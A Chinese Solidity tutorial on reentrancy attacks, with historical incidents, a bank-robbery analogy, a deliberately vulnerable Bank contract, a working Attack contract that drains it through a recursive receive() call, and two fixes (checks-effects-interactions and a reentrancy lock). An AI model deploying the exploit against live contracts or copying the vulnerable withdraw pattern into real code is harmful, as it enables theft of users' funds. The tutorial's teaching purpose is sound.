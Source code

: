 # 1. 重入攻击

介绍最常见的一种智能合约攻击-重入攻击，它曾导致以太坊分叉为 ETH 和 ETC（以太经典），并介绍如何避免它。

## 重入攻击

重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如 fallback 函数）循环调用合约，将合约中资产转走或铸造大量代币。

一些著名的重入攻击事件：

- 2016 年，The DAO 合约被重入攻击，黑客盗走了合约中的 3,600,000 枚 ETH，并导致以太坊分叉为 ETH 链和 ETC（以太经典）链。
- 2019 年，合成资产平台 Synthetix 遭受重入攻击，被盗 3,700,000 枚 sETH。
- 2020 年，借贷平台 Lendf.me 遭受重入攻击，被盗 $25,000,000。
- 2021 年，借贷平台 CREAM FINANCE 遭受重入攻击，被盗 $18,800,000。
- 2022 年，算法稳定币项目 Fei 遭受重入攻击，被盗 $80,000,000。

距离 The DAO 被重入攻击已经 6 年了，但每年还是会有几次因重入漏洞而损失千万美元的项目，因此理解这个漏洞非常重要。

## `0xAA`抢银行的故事

为了让大家更好理解，这里给大家讲一个"黑客`0xAA`抢银行"的故事。

以太坊银行的柜员都是机器人（Robot），由智能合约控制。当正常用户（User）来银行取钱时，它的服务流程：

1. 查询用户的 ETH 余额，如果大于 0，进行下一步。
2. 将用户的 ETH 余额从银行转给用户，并询问用户是否收到。
3. 将用户名下的余额更新为 0。

一天黑客`0xAA`来到了银行，这是他和机器人柜员的对话：

1. 0xAA : 我要取钱，1 ETH。
2. Robot: 正在查询您的余额：1 ETH。正在转帐 1 ETH 到您的账户。您收到钱了吗？
3. 0xAA : 等等，我要取钱，1 ETH。
4. Robot: 正在查询您的余额：1 ETH。正在转帐 1 ETH 到您的账户。您收到钱了吗？
5. 0xAA : 等等，我要取钱，1 ETH。
6. Robot: 正在查询您的余额：1 ETH。正在转帐 1 ETH 到您的账户。您收到钱了吗？
7. 0xAA : 等等，我要取钱，1 ETH。
8. ...

最后，0xAA 通过重入攻击的漏洞，把银行的资产搬空了，银行卒。

![](../../pic/solidity-4-1-1.png)

## 漏洞合约例子

### 银行合约

银行合约非常简单，包含 1 个状态变量`balanceOf`记录所有用户的以太坊余额；包含 3 个函数：

- `deposit()`：存款函数，将 ETH 存入银行合约，并更新用户的余额。
- `withdraw()`：提款函数，将调用者的余额转给它。具体步骤和上面故事中一样：查询余额，转账，更新余额。注意：这个函数有重入漏洞！
- `getBalance()`：获取银行合约里的 ETH 余额。

```js
contract Bank {
    mapping (address => uint256) public balanceOf;    // 余额mapping

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");
        // 转账 ether !!! 可能激活恶意合约的fallback/receive函数，有重入风险！
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 攻击合约

重入攻击的一个攻击点就是合约转账 ETH 的地方：转账 ETH 的目标地址如果是合约，会触发对方合约的`fallback`（回退）函数，从而造成循环调用的可能。Bank 合约在`withdraw()`函数中存在 ETH 转账：

```js
(bool success, ) = msg.sender.call{value: balance}("");
```

假如黑客在攻击合约中的`fallback()`或`receive()`函数中重新调用了 Bank 合约的`withdraw()`函数，就会造成`0xAA`抢银行故事中的循环调用，不断让 Bank 合约转账给攻击者，最终将合约的 ETH 提空。

```js
receive() external payable {
    bank.withdraw();
}
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用 Bank 合约的`withdraw()`函数。它有 1 个状态变量 bank 用于记录 Bank 合约地址。它包含 4 个函数：

- 构造函数: 初始化 Bank 合约地址。
- `receive()`: 回调函数，在接收 ETH 时被触发，并再次调用 Bank 合约的 withdraw()函数，循环提款。
- `attack()`：攻击函数，先 Bank 合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后 Bank 合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将 Bank 合约的 ETH 提空。
- `getBalance()`：获取攻击合约里的 ETH 余额。

```js
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## 预防办法

目前主要有两种办法来预防可能的重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

### 检查-影响-交互模式

检查-影响-交互模式强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。如果我们将 Bank 合约`withdraw()`函数中的更新余额提前到转账 ETH 之前，就可以修复漏洞：

```js
function withdraw() external {
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");
    // 检查-效果-交互模式（checks-effect-interaction）：先更新余额变化，再发送ETH
    // 重入攻击的时候，balanceOf[msg.sender]已经被更新为0了，不能通过上面的检查。
    balanceOf[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");
}
```

### 重入锁

重入锁是一种防止重入函数的修饰器（modifier），它包含一个默认为 0 的状态变量`_status`。被`nonReentrant`重入锁修饰的函数，在第一次调用时会检查`_status`是否为 0，紧接着将`_status`的值改为 1，调用结束后才会再改为 0。这样，当攻击合约在调用结束前第二次的调用就会报错，重入攻击失败。

```js
uint256 private _status; // 重入锁

// 重入锁
modifier nonReentrant() {
    // 在第一次调用 nonReentrant 时，_status 将是 0
    require(_status == 0, "ReentrancyGuard: reentrant call");
    // 在此之后对 nonReentrant 的任何调用都将失败
    _status = 1;
    _;
    // 调用结束，将 _status 恢复为0
    _status = 0;
}
```

只需要用`nonReentrant`重入锁修饰`withdraw()`函数，就可以预防重入攻击了。

```js
// 用重入锁保护有漏洞的函数
function withdraw() external nonReentrant{
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");

    balanceOf[msg.sender] = 0;
}
```

此外，OpenZeppelin 也提倡遵循 PullPayment(拉取支付)模式以避免潜在的重入攻击。其原理是通过引入第三方(escrow)，将原先的“主动转账”分解为“转账者发起转账”加上“接受者主动拉取”。当想要发起一笔转账时，会通过`_asyncTransfer(address dest, uint256 amount)`将待转账金额存储到第三方合约中，从而避免因重入导致的自身资产损失。而当接受者想要接受转账时，需要主动调用`withdrawPayments(address payable payee)`进行资产的主动获取。
